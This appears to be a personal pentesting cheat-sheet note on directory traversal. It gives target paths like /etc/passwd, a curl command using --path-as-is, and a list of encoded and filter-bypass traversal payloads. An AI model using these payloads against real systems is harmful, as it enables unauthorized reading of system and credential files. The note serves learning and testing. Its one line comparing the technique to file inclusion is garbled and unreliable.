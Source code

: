 # Directory Traversal

Directory Traversal dentifiable by an ability to manipulate file paths with cli-esque: `../` or `..\` characters to change directory from the webpage beeing attacked. It is similar to [[File-Inclusion]], but does rely on `include()` 


- Directory Traversal
	- Absolute Paths - `/etc/passwd` or `C:\Windows\System32\drivers\etc\hosts`
	- Relative Paths - `../etc/passwd`; relative to position in a file system 

Provide a path that is exactly as is in the url
```bash
curl http://badwebsite/../../../../../dt/vuln --path-as-is
```


#### Traversal encoding:

Remember this is a guide to ideas of how to encode Directory Traversal, encoding payloads on the fly not from here.
```bash
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./
%2e%2e%2f
%252e%252e%252f 	# Double encoding
%c0%ae%c0%ae%c0%af	# utf-8 encoding
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

```
